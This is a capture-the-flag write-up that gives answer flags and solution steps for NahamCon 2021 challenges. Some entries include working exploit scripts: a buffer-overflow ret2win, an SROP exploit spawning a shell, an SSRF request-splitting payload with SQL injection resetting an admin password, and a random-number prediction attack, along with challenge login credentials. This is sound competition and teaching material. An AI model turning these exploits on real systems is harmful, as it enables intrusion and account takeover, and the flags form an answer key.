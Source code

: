 # NahamCon CTF

##Challenges

1. [Rules Source Code](#rules-source-code)
2. [Nahamcon2021](#nahamcon2021)
3. [Veebee](#veebee)
4. [Echo](#echo)
5. [Homeward Bound](#homeward-bound)
6. [Shoelaces](#shoelaces)
7. [Pollex](#pollex)
8. [Car Keys](#car-keys)
9. [Eighth Circle](#eighth-circle)
10. [Henpeck](#henpeck)
11. [Ret2basic](#ret2basic)
12. [The List](#the-list)
13. [Esab64](#esab64)
14. [Resourceful](#resourceful)
15. [Chicken Wings](#chicken-wings)
16. [Andra](#andra)
17. [Merch Store](#merch-store)
18. [Bad Blog](#bad-blog)
19. [Dice Roll](#dice-roll)
20. [Microscopium](#microscopium)
21. [Typewriter](#typewriter)
22. [Some-really-ordinary-program](#some-really-ordinary-program)
23. [Weather APP](#weather-app)
24. [Eaxy](#eaxy)
25. [Mission](#mission)
26. [Bionic](#bionic)
27. [Meet The Team](#meet-the-team)
28. [Gus](#gus)
29. [Hercules](#hercules)
30. [Lyra](#lyra)
31. [Orion](#orion)
32. [Leo](#leo)
33. [Hydraulic](#hydraulic)
34. [Banking On It](#banking-on-it)
35. [Internal](#internal)
36. [Degrade](#degrade)
37. [Centaurus](#centaurus)

#### Rules Source Code
<details><summary>Solution</summary>
	
```flag{90bc54705794a62015369fd8e86e557b}```

</details>

#### Nahamcon2021
<details><summary>Solution</summary>

```flag{e36bc5a67dd2fe5f33b62123f78fbcef}```
</details>

#### Veebee
<details><summary>Solution</summary>
	
https://www.aldeid.com/wiki/Decode-VBE-script

![image](https://user-images.githubusercontent.com/1076452/111078386-de735b80-84d3-11eb-912b-a0be3716c787.png)

Double decode, changing name to vbe after first decode.

![image](https://user-images.githubusercontent.com/1076452/111078404-f77c0c80-84d3-11eb-9234-6d43c5088ee0.png)

```flag{f805593d933f5433f2a04f082f400d8c}```

</details>

#### Echo

<details><summary>Solution</summary>
	
![image](https://user-images.githubusercontent.com/1076452/111018313-e7124780-8396-11eb-8fa1-b99817861f79.png)

![image](https://user-images.githubusercontent.com/1076452/111018299-d6fa6800-8396-11eb-8e52-279d10ecd11a.png)

![image](https://user-images.githubusercontent.com/1076452/111018288-cba73c80-8396-11eb-8d5b-53e1e3203942.png)

```flag{1beadaf44586ea4aba2ea9a00c5b6d91}```

</details>


#### Homeward Bound

<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111000058-25d8db00-8360-11eb-9b99-3a045d6fd1f2.png)

![image](https://user-images.githubusercontent.com/1076452/111000087-30937000-8360-11eb-998c-07f49f530a66.png)

```flag{26080a2216e95746ec3e932002b9baa4}```

</details>

#### Shoelaces
<details><summary>Solution</summary>

strings shoelaces.jpg | grep flag

```flag{137288e960a3ae9b148e8a7db16a69b0}```

</details>

#### Pollex
<details><summary>Solution</summary>

binwalk --dd='.*' pollex

![image](https://user-images.githubusercontent.com/1076452/111015405-6435c080-8387-11eb-8b51-a97ce86ac290.png)

```flag{65c34a1ec121a286600ddd48fe36bc00}```
</details>

#### Car Keys
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111019745-e7631080-839f-11eb-9708-59de62d02bc9.png)

```flag{6f980c0101c8aa361977cac06508a3de}```
</details>

#### Eighth Circle
<details><summary>Solution</summary>

http://www.malbolge.doleczek.pl/

![image](https://user-images.githubusercontent.com/1076452/111020021-baaff880-83a1-11eb-8efd-e168fd0f6bdd.png)
</details>

#### Henpeck
<details><summary>Solution</summary>

```tshark -r ./henpeck.pcap -Y 'usb.capdata && usb.data_len == 8' -T fields -e usb.capdata | sed 's/../:&/g2' > keyboards.txt```

https://github.com/TeamRocketIst/ctf-usb-keyboard-parser

```
python usbkeyboard.py keyboards.txt 
so the answer is flag{f7733e0093b7d281dd0a30fcf34a9634} hahahah lol
```
</details>

#### Ret2basic

<details><summary>Solution</summary>

```
#!/usr/bin/python
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./ret2basic')
context.terminal = ['tmux', 'splitw', '-hp', '70']

def start():
    if args.GDB:
        return gdb.debug('./ret2basic', gdbscript=gs)
    if args.REMOTE:
        return remote('challenge.nahamcon.com', 30413)
    else:
        return process('./ret2basic')
r = start()
#========= exploit here ===================
win = 0x401215
#ret = 0x40133b
payload = "A" * 120
#payload += p64(ret)
payload += p64(win)
r.sendlineafter(": ",payload)

#========= interactive ====================
r.interactive()
```

![image](https://user-images.githubusercontent.com/1076452/111002592-810ccc80-8364-11eb-9f58-0ca4bb807ed0.png)


</details>

#### The List
<details><summary>Solution</summary>

```flag{0eb219803dbfcda8620dae0772ae2d72}```
</details>

#### esab64
<details><summary>Solution</summary>

cat esab64 | rev | base64 -d | rev

```flag{fb5211b498afe87b1bd0db601117e16e}```
</details>

#### Resourceful
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111007125-e1077100-836c-11eb-9a10-edb11904272d.png)

![image](https://user-images.githubusercontent.com/1076452/111007090-cf25ce00-836c-11eb-989e-3e9f1d579b6c.png)

![image](https://user-images.githubusercontent.com/1076452/111007110-da78f980-836c-11eb-9510-ce5ad11a8954.png)

```flag{7eecc051f5cb3a40cd6bda40de6eeb32}```
</details>

#### Chicken wings 
<details><summary>Solution</summary>

https://lingojam.com/WingDing

```flag{e0791ce68f718188c0378b1c0a3bdc9e}```
</details>

#### Andra
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111007452-a9e58f80-836d-11eb-8fcb-2b86f03bf057.png)

![image](https://user-images.githubusercontent.com/1076452/111007468-b2d66100-836d-11eb-91b5-ac0fed2e04a5.png)

![image](https://user-images.githubusercontent.com/1076452/111007499-b833ab80-836d-11eb-892e-e2854621be02.png)

```flag{d9f72316dbe7ceab0db10bed1a738482}```
</details>

#### Merch Store
<details><summary>Solution</summary>

Source code merch store

```flag{fafc10617631126361c693a2a3fce5a7} ```
</details>

#### Bad Blog
<details><summary>Solution</summary>

SQLi En user agent
![image](https://user-images.githubusercontent.com/1076452/111036069-1c9d4c00-83fc-11eb-8b89-be0cd7109da4.png)

![image](https://user-images.githubusercontent.com/1076452/111036081-2e7eef00-83fc-11eb-9070-ff2fe726a45b.png)

![image](https://user-images.githubusercontent.com/1076452/111036096-40609200-83fc-11eb-91ee-bece11537691.png)

![image](https://user-images.githubusercontent.com/1076452/111036157-8e759580-83fc-11eb-8e5d-18b9580a45c2.png)

![image](https://user-images.githubusercontent.com/1076452/111036146-8158a680-83fc-11eb-883a-568c950166ae.png)

![image](https://user-images.githubusercontent.com/1076452/111036109-4eaeae00-83fc-11eb-820f-9789a85bca4d.png)

```flag{8b31eecb1831ed594fa27ef5b431fe34}```
</details>

#### Dice Roll
<details><summary>Solution</summary>

```
#!/usr/bin/env python
from pwn import *
from randcrack import RandCrack

rc = RandCrack()
r = remote('challenge.nahamcon.com', 31784)

def roll():
    r.sendlineafter("> ","2")
    r.recvline()
    data = r.recvline()
    rc.submit(int(data))

def guess(num):
    print("Guessing the dice...")
    r.sendlineafter("> ","3")
    r.sendlineafter("> ","{}".format(num))
    data = r.recvline()
    print(data)
    r.recvline()
    data = r.recvline()
    print(data)

print("Getting data to make prediction...")
for i in range(624):
    roll()

num = rc.predict_getrandbits(32)
print("Predicted: {}".format(num))
guess(num)
```

![image](https://user-images.githubusercontent.com/1076452/111038864-db139d80-8409-11eb-9023-5fbcb952e2ea.png)

```flag{e915b62b2195d76bfddaac0160ed3194}```
</details>

#### Microscopium
<details><summary>Solution</summary>

React APP

![image](https://user-images.githubusercontent.com/1076452/111053514-29915e00-8443-11eb-9c2c-2f80fb1c2181.png)

```
apktool.jar d microscopium.apk
npx react-native-decompiler -i index.android.bundle -o ./output
```

![image](https://user-images.githubusercontent.com/1076452/111053531-4fb6fe00-8443-11eb-944f-2f67f8adf188.png)

Bruteforce PIN
```
const { Base64 } = require('js-base64');
const { sha256 } = require('js-sha256')

var cipher64 = "AA9VAhkGBwNWDQcCBwMJB1ZWVlZRVAENW1RSAwAEAVsDVlIAV00=";
var partKey = 'pgJ2K9PMJFHqzMnqEgL';

var n = Base64.toUint8Array(cipher64);

for (pin = 0; pin <= 9999; pin++) {
    hash = sha256.create()
    hash.update(partKey);
    hash.update(String(pin));

    var u = ''
    for (var l = hash.hex(), c = 0; c < n.length; c++) {
        u += String.fromCharCode(n[c] ^ l.charCodeAt(c));
    }

    if (u.indexOf('flag{') != -1) {
        console.log("Pin: " + pin);
        break;
    }
}
console.log(u)
```
```
Pin: 4784
flag{06754e57e02b0c505149cd1055ba5e0b}
```
</details>

#### Typewriter
<details><summary>Solution</summary>

https://digital-forensics.sans.org/media/volatility-memory-forensics-cheat-sheet.pdf

```volatility imageinfo -f image.bin```

![image](https://user-images.githubusercontent.com/1076452/111054076-3ebcbb80-8448-11eb-80ff-bce10100edd7.png)

```volatility -f image.bin --profile=Win7SP1x86_23418 cmdline```

![image](https://user-images.githubusercontent.com/1076452/111054089-5eec7a80-8448-11eb-83d7-1090de2c698d.png)

```volatility -f image.bin --profile=Win7SP1x86_23418 filescan | grep .docx```

![image](https://user-images.githubusercontent.com/1076452/111054096-79beef00-8448-11eb-889a-bc721ae3a9c8.png)

```volatility -f image.bin --profile=Win7SP1x86_23418 dumpfiles -Q 0x000000007eb665b8 -n --dump-dir=.```

![image](https://user-images.githubusercontent.com/1076452/111054105-8c392880-8448-11eb-84c0-c3c7f4d74426.png)

![image](https://user-images.githubusercontent.com/1076452/111054054-061ce200-8448-11eb-9a86-b5050475f6ce.png)

```flag{c442f9ee67c7ab471bb5643a9346cf5e}```
</details>

#### some-really-ordinary-program
<details><summary>Solution</summary>

```
#!/usr/bin/env python3
from pwn import *
import sys
import subprocess

context(terminal=['tmux', 'new-window'])
context(os="linux", arch="amd64")

p_name = "./some-really-ordinary-program"  ## change for the challenge name
DEBUG = 0
context.log_level = "debug"

if DEBUG:
    
    p = process(p_name)         ## Start the new process
    gdb_command = '''b * 0x401056'''.split('\n')    ## The command that will run gdb at startup
    attach_command = "tmux new-window gdb {} {} ".format(p_name,p.pid)
    for k in gdb_command:
        attach_command += '''--eval-command="{}" '''.format(k)
    log.debug("Starting a new gdb session with the following command: {}".format(attach_command))
    subprocess.Popen(attach_command, shell=True, stdin=subprocess.PIPE)
else:
    p = remote("challenge.nahamcon.com", 32119)
## everything goes here

####    ADDRESSES  ####

call_read = p64(0x401000)
syscall_ret = p64(0x40100e)   #   syscall; ret
sub_rsp = p64(0x401026)
push_rbp = p64(0x401022)
main = p64(0x401022)

call_read_p3 = p64(0x401006)

bss = 0x0000000000402000 
####               ####
####    FUNCTIONS  ####
####               ####

input("Send first payload ? ")

frame_mprotect = SigreturnFrame()

frame_mprotect.rax = 0xa
frame_mprotect.rdi = 0x0000000000400000
frame_mprotect.rsi = 0x1000
frame_mprotect.rdx = 0x7
frame_mprotect.rsp = 0x400088
frame_mprotect.rip = u64(syscall_ret)

# Make the bss writable and executable

payload = b''
payload += b'A' * 508
payload += push_rbp
#payload += call_read
payload += syscall_ret
payload += bytes(frame_mprotect)
payload += b'B' * 8
payload += b'C' * 8

p.sendline(payload)

input("Send second payload ? ")

p.sendline(b'F' * (0xf-1) )

input("Send third payload ? ")
payload = b''
payload += b'\x31\xc0\x50\x48\x31\xff\x48\xc7\xc0\x3b\x00\x00\x00\x48\xc7\xc7\x88\x00\x40\x00\x48\x31\xf6\x48\x31\xd2\x0f\x05'

'''
rasm2 -b 64 'xor eax, eax 
push eax
xor rdi, rdi
mov rax, 0x3b
mov rdi, 0x400088
xor rsi, rsi
quote> xor rdx, rdx
quote> syscall'
'''

payload += b'A' * (144 - len(payload) - len(b'/bin/sh\x00'))   #   Reach the place on the bss where the RSP is placed to overwrite the return address
payload += b'/bin/sh\x00'
payload += p64(0x400000) #   return to the shellcode, since we have the bss executable now
p.sendline(payload)

p.interactive()
```
```flag{175c051dbd3db6857f3e6d2907952c87}```
</details>

#### Weather APP
<details><summary>Solution</summary>

```
#!/usr/bin/python3

import requests
import sys
from requests.utils import requote_uri


if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} <url>")
    exit(127)

headers = {
            "Host": "127.0.0.1"
        }

# problematic chars for nodejs 8.12 (https://jaeseokim.tistory.com/98)
SPACE = "Ġ"
CRLF = "čĊ"
SLASH = "į"

# base post data
post_payload = "username={}&password=bruh"

# sql payload to update admin pass
payload = "admin','bruh') ON CONFLICT(username) DO UPDATE SET password='bruh'; --"

# urlencoded sql payload
sql_payload = requote_uri(payload)

# insert payloads into base payloads and calc length
user_payload = post_payload.format(sql_payload)
l_payload = len(post_payload.format("")) + len(sql_payload)+10

# payload sent to /api/weather/ endpoint
base_payload = "127.0.0.1/test"+SPACE+"HTTP"+SLASH+"1.1"+CRLF+"HOST:"+SPACE+"127.0.0.1"+CRLF*2+"POST"+SPACE+SLASH+"register"+SPACE+"HTTP"+SLASH+"1.1"+CRLF+"HOST:"+SPACE+"127.0.0.1"+CRLF+"CONTENT-TYPE:"+SPACE+"application"+SLASH+"x-www-form-urlencoded"+CRLF+"CONTENT-LENGTH:"+SPACE+str(l_payload)+CRLF*2+user_payload+CRLF*2+"GET"+SPACE+SLASH+"aaa#"

data = {"endpoint": base_payload,
        "city": "bruh_city",
        "country": "bruh country"
        }

# get url from cmdline arg
url = sys.argv[1]

res = requests.post(url, data, headers)
print(res.text)
```
```HTB{w3lc0m3_t0_th3_p1p3_dr34m}```
</details>

#### Eaxy
<details><summary>Solution</summary>

```
#!/usr/bin/env python3
import string
import re

charset = string.ascii_lowercase + string.digits + '{}'

def xor_strings(xs, ys):
    return "".join(chr(ord(x) ^ ord(y)) for x, y in zip(xs, ys))

flag = [' '] * 38
def brute(data,val):
    xord_byte_array = bytearray(len(data))
    for i in range(len(xord_byte_array)):
	    xord_byte_array[i] = data[i] ^ ord(val)
    d = xord_byte_array.decode('utf-8')

    if 'flag' in d:
        result = re.findall( r'is the (.*?) character',d)
        for r in result:
            flag[int(r)] = val

f = open('eaxy', 'rb')
data = bytearray(f.read())

for i in charset:
    brute(data,i)
print(''.join(flag))
```
```flag{16edfce5c12443b61828af6cab90dc79}```
</details>

## Mission
<details><summary>Solution</summary>

Source code

![image](https://user-images.githubusercontent.com/1076452/111015203-6ea38a80-8386-11eb-833a-647bffe6b2b6.png)

```flag{48e117a1464c3202714dc9a350533a59}```
</details>

### Bionic
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111012004-27170180-837a-11eb-8aa6-8f0434726b1b.png)
</details>

### Meet The Team
<details><summary>Solution</summary>

https://github.com/internetwache/GitTools

https://constellations.page/.git/

git show

![image](https://user-images.githubusercontent.com/1076452/111013989-719b7c80-8380-11eb-9d8b-719daeb8cbe1.png)

</details>

### Gus
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111011972-ffc03480-8379-11eb-8996-25197d69882c.png)

</details>

### Hercules
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111013207-5da24b80-837d-11eb-94b6-fa2ce6b44d39.png)
</details>

### Lyra
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111014284-c986b300-8381-11eb-86a2-847f0693ee78.png)

![image](https://user-images.githubusercontent.com/1076452/111014303-de634680-8381-11eb-85ee-3b94b44dac07.png)

![image](https://user-images.githubusercontent.com/1076452/111014312-ea4f0880-8381-11eb-9bfb-d8e0a0ae7060.png)
</details>

### Orion
<details><summary>Solution</summary>

https://twitter.com/OrionMorra/status/1363789936219082756

![image](https://user-images.githubusercontent.com/1076452/111014551-ea9bd380-8382-11eb-9418-a6b223bd1c13.png)
</details>

### Leo
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111017557-1c1c9b00-8393-11eb-8485-7011fa58aea8.png)

![image](https://user-images.githubusercontent.com/1076452/111017573-2b034d80-8393-11eb-996e-b7169e37a59f.png)

``` flag{636db5f4f0e36908a4f1a4edc5b0676e}  A password for Leo is `constelleorising` ```

</details>

### Sensible
<details><summary>Solution</summary>

Entrar con datos de leo -> leo:constelleorising

</details>

### Hydraulic
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111021178-5133e800-83a9-11eb-8fb5-8724f47169f7.png)

```[ssh] host: challenge.nahamcon.com   login: pavo   password: starsinthesky```

![image](https://user-images.githubusercontent.com/1076452/111021210-8b9d8500-83a9-11eb-8aac-24088f8267f2.png)

```flag{cadbbfd75d2547700221f8c2588e026e}```
</details>

### Banking On It
<details><summary>Solution</summary>

Entrar con user gus e id_rsa

https://github.com/gusrodry/development/tree/master/config/.ssh
</details>

### Internal
<details><summary>Solution</summary>

</details>

### Degrade
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111021372-7a08ad00-83aa-11eb-80c7-5ecc86733971.png)
</details>

### Centaurus
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111052561-9d7b3880-843a-11eb-9c3e-7bd1e74b1e44.png)

![image](https://user-images.githubusercontent.com/1076452/111052567-b257cc00-843a-11eb-9555-6d4ad8dec3a2.png)

![image](https://user-images.githubusercontent.com/1076452/111052569-bd126100-843a-11eb-8e22-f329691d9a0e.png)

![image](https://user-images.githubusercontent.com/1076452/111052573-c7ccf600-843a-11eb-866f-9f8872ffbfd6.png)

```flag{4a8f943a965086945794066f7ce97f23}```
</details>
